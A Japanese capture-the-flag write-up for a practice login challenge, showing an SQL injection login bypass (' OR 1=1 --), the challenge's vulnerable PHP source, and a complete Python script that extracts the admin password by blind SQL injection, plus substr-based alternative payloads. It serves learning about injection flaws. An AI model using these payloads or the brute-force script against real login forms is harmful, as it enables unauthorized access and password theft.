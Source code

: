 # 6 login

# 問題

>http://ctfq.sweetduet.info:10080/~q6/

# 解法

開くとLoginページ。adminで入れとのこと。
まあSQLインジェクションだろう。

+ ID: `admin`
+ Pass: `' OR 1=1 --`

であっさり入れた。

```php
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

でもまだ終わりではない。flagはadminのパスワードらしい。
ブラインドSQLインジェクションというらしい。

出力できそうにないので総当りをしてみる。

最初はLikeで一文字ずつ試していたけど、Likeはcase insensitiveらしく小文字と大文字が区別できない。
あとで小文字か大文字かを判定してもいいけど、比較演算子で代用することにした。
つまり、`pass like 'FLAG_a%'`は`pass >= 'FLAG_a' AND pass < 'FLAG_b'`となる。

あとは一文字ずつ繰り返す。

# script

```python
import urllib.request, urllib.parse

class BF():
    def __init__(self, url, flag='FLAG_'):
        self.url=url
        self.id = 'admin'
        self.flag = flag

    def make_data(self, flag, flag2, like=False):
        p = "' OR ( pass >=  '" + flag + "' AND pass < '" + flag2 + "'); --"
        if like:
            p =  "' OR pass like '" + flag + "%'; --"
        return urllib.parse.urlencode({
            'id': self.id,
            'pass': p
        }).encode('utf-8')


    def atack(self, flag, flag2, like):
        # print(flag, flag2)
        data = self.make_data(flag, flag2, like)
        with urllib.request.urlopen(self.url, data=data) as res:
           html = res.read().decode("utf-8")
           return 'Congratulations!' in html

    def is_one_more(self, flag):
        return self.atack(flag+'_', '', True)
        

    def atack_bf(self, flag):
        # 0-9?A-Z?a-z
        chars = list(map(chr, range(48, 123)))
        for c, cn in zip(chars, chars[1:] + ['_']):
            ret = self.atack(flag + c, flag + cn, False)
            if ret:
                return c
        raise
    
    def run(self):
        while self.is_one_more(self.flag):
            self.flag += self.atack_bf(self.flag)
            print(self.flag)

        print('======================')
        print('flag is \n', self.flag)
    

bf = BF("http://ctfq.sweetduet.info:10080/~q6/")
# print(bf.atack_bf('FLAG_'))
# print(bf.is_one_more('FLAG_'))
bf.run()
```


# 別解

あとで調べたら、substrで解いたほうが楽そう。

```
WHERE id='' OR (SELECT length(pass) FROM user WHERE id='admin') <= length
```

で長さを調べて、

```
WHERE id='' OR substr((SELECT pass FROM users), n, 1)='a'
```

で一文字見ていく。

# 参考

+ http://www.yoheim.net/blog.php?q=20160204
+ http://stackoverflow.com/questions/15480319/case-sensitive-and-insensitive-like-in-sqlite
+ http://www9.plala.or.jp/sgwr-t/c_sub/ascii.html 
+ http://stackoverflow.com/questions/16060899/alphabet-range-python
+ http://sekai013.hatenablog.com/entry/2015/03/26/224413
